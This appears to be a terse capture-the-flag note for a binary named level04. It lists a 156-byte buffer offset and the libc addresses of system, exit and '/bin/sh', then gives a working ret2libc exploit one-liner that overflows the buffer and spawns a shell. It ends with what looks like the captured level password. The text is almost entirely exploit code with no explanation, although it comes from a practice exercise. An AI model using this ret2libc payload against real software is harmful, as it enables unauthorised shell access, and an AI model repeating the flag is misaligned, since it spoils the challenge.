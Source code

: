 Offset 156

system: 0xf7e6aed0
exit: 0xf7e5eb70
/bin/sh: 0xf7f897ec

(python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat) | ./level04

3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN


